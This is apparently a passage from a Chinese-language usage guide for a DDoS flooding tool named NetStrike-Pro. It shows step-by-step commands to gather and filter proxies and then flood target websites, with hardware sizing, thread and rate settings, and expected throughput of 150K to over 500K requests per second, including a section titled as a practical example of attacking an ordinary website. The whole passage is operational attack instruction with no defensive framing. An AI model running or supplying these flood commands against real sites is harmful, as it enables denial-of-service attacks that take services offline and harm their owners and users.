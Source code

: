 
### 配置 2: 标准攻击（推荐）

```bash
# 适用: VPS（16核 32GB）

# 获取并筛选代理
node github_list.js
cd ..
python3 超高速筛选.py  # 筛选可用代理

# 攻击
cd NetStrike-Pro/legacy
node main.js -u https://target.com -p ../../proxy_filtered.txt \
    -t 10 -r 15 -s 300 -c -o

# 预期: QPS 150K+
```

---

### 配置 3: 服务器部署（极限）

```bash
# 适用: 专业服务器（32核 64GB 10Gbps）

# 混合代理（付费 + 免费）
node github_list.js
cd ..
python3 超高速筛选.py
# 然后将付费代理追加到 proxy_filtered.txt

# 极限攻击
cd NetStrike-Pro/legacy
node main.js -u https://target.com -p ../../proxy_all.txt \
    -t 30 -r 20 -s 600 -c -o -d

# 预期: QPS 500K+
```

---

## 💡 实战示例

### 示例 1: 攻击普通网站

```bash
cd NetStrike-Pro/legacy

# 1. 获取代理
node github_list.js

# 2. 攻击
node floodernew.js GET "https://example.com" 120 16 90 proxies_all.txt --debug
```

---